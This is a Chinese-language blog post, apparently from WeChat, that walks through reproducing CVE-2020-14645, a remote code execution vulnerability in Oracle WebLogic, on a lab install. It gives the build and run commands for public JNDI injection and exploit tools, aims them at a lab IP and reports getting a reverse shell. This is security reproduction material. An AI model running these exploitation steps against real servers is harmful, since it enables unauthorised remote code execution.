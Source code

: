 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/COrpekNaitVQuCDHDfOl0w)

正文共： 1453 字 17 图  

预计阅读时间：4 分钟

  

**简介**

WebLogic 是美国 Oracle 公司出品的一个 application server，确切的说是一个基于 JAVAEE 架构的中间件，WebLogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。将 Java 的动态功能和 Java Enterprise 标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

攻击者可利用漏洞实现远程代码执行。

  

**影响版本**

Oracle WebLogic Server 10.3.6.0.0

Oracle WebLogic Server 12.1.3.0.0

Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0

  

**复现环境**

下载 JDK 6u211/7u201/8u191 任意版本并配置环境变量

本人用的 jdk8（下载地址：

https://mega.nz/file/1KIhjSCR#g0s5jekk3F9t55o3WXK_ahozuqn9_60eKSKt70we_uw）

WebLogic 12.2.1.4 官方下载地址：

https://www.oracle.com/middleware/technologies/weblogic-server-downloads.html

安装

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfz3kmicgQsDUu6pM8E55Hq1jjyogjH7hIvicfra2VHpg0ZdicY3mia70wHSw/640?wx_fmt=png)

一直点下一步，勾选自助启动配置向导选项

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzibY4qWTibhZy4fz1X9Up6kODic69BVxRgGPagNdocz0SUxhfib9lebkq8A/640?wx_fmt=png)

进入配置向导，创建新域并勾选全部模板

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzS8OeMrmq5cR6OX1ARH356xk2FrJQEpNDxAgV04wP3zNtCWQYWICwOQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfz9ZCBy8bokb1PibyDkOstqa9UyZftIR06mcGJD81EicEfSgopa9Jv2Q0w/640?wx_fmt=png)

安装成功后，使用 cd 跳到 base_domain 目录下

C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain

运行 startWebLogic.cmd

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzGrjrPvW3GVIU6dmuHrbNZ0ibHXo2wLT5wibPqGXLeqK3CtdibtWpt35fQ/640?wx_fmt=png)

浏览器访问 http://IP:7001/console/login/LoginForm.jsp

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzRyXYAGmKDIz3F87JiarFfY7w1ADLbMOlM1VicIj3vr40egSQcoBIduLg/640?wx_fmt=png)

使用 JNDI 工具搭建 LDAP 和 HTTP 服务，注意不能占用 8180/1099/1389 三个端口，修改要执行的命令后回车，会同时启动 LDAP/RMI/HTTP 三种服务，并且自动编译好带命令的 class 文件

JNDI 工具下载地址：

https://github.com/welk1n/JNDI-Injection-Exploit

下载完成后进入目录编译

cd JNDI-Injection-Exploit

mvn clean package -DskipTests

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzibVialrnDwTTbojHib7SfTcARuGrRwkakpD5EsZxHUsQUq0PFtCZviaw4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzTsnNPw9ofMlLxej5eIRfbTMn1QseBqCtYj5Te7ppODZLwia7picS12Cg/640?wx_fmt=png)

编译的时间比较久，需要多等会（我在进行编译的时候，花了很久时间，是 Maven 源没更换导致的）

编译完成后进入 target，使用命令

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C [command] -A [address]

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzjZAr4ia4c5faPqZsYicNjSDicqzzkKTq2LkzteUpBDW3Ac5hDnrj9EuCQ/640?wx_fmt=png)

然后使用 CVE-2020-14645 漏洞验证工具

下载地址：https://github.com/DSO-Lab/defvul（推荐使用镜像地址：https://github.com.cnpmjs.org/DSO-Lab/defvul）

进入 CVE-2020-14645_Weblogic 目录下进行编译

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzFptOsZLVSxhWgyCEiaRXUVtjte3nZpLnt7IL2HPqIKaTBiaDMcicE9AvQ/640?wx_fmt=png)

因为我 kali 中的 jdk 版本为 11，该漏洞验证工具需要的 jdk 版本为 1.8；于是我又屁颠屁颠在 ubuntu 上装 java，装 mvn；开始编译

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzib8ER0jOTIBcJccJwmPLe1BeiaEnBicjt4OwKpuU6iat7ZeZ3Nttibhqekw/640?wx_fmt=png)

编译成功：

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfznCYbnFicxqEYpAMAibdyJRbyLEN7TUjiar23utYQQ5YvVhPhSyPsAcU4w/640?wx_fmt=png)

然后进入 target

java -jar CVE-2020-14645.jar LDAP_IP:LDAP_PORT/#Exploit 

http://192.168.31.107:7001

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzOrYhbx1tia6iazECT2Sj9DUPmicFQLibBAwXPoMZCY9DtlJrldOw7NdYLA/640?wx_fmt=png)

成功反弹

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzls6vIpYTn1NDGdvVtZ8VCN1E7RZqzEKKmKQeedXbWQaqCqR7iakTfFw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzf4IyXmwbAHCfMibSaCcISlbSZct9BhnPibRhvq2BHRdH59SiaybGIVYmQ/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/RQoDdorCu0V5znWFiaMBVWiaibdvAvmGeUvfC5LJ60x1Kq5wiaQ5UtMKEDcwQJ3ibicBdGBKxGs1V2AuZcg3ISoDto1g/640?wx_fmt=png)

  

END

  

扫描二维码

获取更多精彩

![](https://mmbiz.qpic.cn/mmbiz_jpg/LW6H2Jdky5NSSaFjT98r5XYIpeTQTkfzUganOyCePwOFRia4YRAG18er0CTCiczeuM05gdWDiaMRfgViavbHJlMQrA/640?wx_fmt=jpeg)